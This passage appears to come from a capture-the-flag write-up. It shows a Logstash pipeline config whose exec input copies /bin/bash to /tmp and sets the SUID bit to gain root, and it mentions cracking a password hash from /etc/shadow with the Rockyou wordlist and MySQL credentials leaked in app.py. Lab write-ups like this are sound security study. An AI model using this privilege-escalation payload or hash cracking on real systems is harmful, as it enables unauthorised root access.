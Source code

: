 By writing this code into the config file, we would copy the `/bin/bash` binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the `-p` flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


## privesc exploit:
```
input {
  exec {  
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"    
    interval => 120    
  }
}

output {
  file { 
    path => "/tmp/output.log"   
    codec => rubydebug   
  }  
}
```

The last flag is then found at `/root/flag2.txt`.


# More information:

We got access to the bill user based on the SSTI, but there were also found two other users, `frankie` and `princess`.
After the challenge was completed, there was found a possibility to crack the `princess` password based on the hash found in `/etc/shadow`.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the `/home/bill/webapp/app.py`.
